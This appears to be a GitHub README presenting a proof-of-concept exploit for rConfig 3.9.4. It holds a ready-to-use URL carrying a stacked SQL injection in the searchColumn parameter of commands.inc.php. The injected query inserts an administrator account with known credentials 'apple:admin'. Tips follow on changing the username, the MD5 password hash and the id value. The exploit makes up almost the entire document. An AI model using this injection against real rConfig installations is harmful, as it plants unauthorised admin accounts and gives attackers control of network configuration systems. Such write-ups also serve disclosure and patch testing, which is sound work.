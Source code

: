 # rConfig-3.9.4-SQL-injection-for-creating-admin

The following URL adds a user "apple" with password "admin" to the rConfig service. After running this, you can then login with the credentials apple:admin
```
https://192.168.95.57:8081/commands.inc.php?searchOption=contains&searchField=vuln&search=search&searchColumn=command ;INSERT INTO `users` (`id`, `username`, `password`, `userid`, `userlevel`, `email`, `timestamp`, `status`) VALUES ('450', 'apple', '21232f297a57a5a743894a0e4a801fc3', '6c97424dc92f14ae78f8cc13cd08308d', 9, 'apple@domain.com', 1346920339, 1);--
```
#### Things that can be changed:
* Obviously the username can be change. 
* The password field can be changed too. Just replace it with the corresponding md5 hash.
* For changing the id field make sure its a value between 200 and 900 (inclusive).

